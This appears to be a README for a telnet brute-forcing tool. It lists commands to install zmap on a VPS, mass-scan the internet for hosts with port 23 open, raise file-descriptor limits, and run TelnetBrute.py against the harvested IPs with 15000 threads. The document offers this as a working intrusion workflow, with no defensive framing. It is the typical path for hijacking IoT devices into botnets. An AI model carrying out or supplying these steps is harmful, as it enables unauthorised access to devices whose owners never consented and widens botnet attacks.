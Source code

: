 [VPS CentOS 6.9 2GB-RAM] 

- Install zmap

yum update -y 

sh zmap_auto_install.sh

- Scan Telnet Ips

1- zmap -p23 -o mfu.txt -N 25000   OR   zmap -p23 -o mfu.txt -w example.lst

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfu.txt 15000 test.txt




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



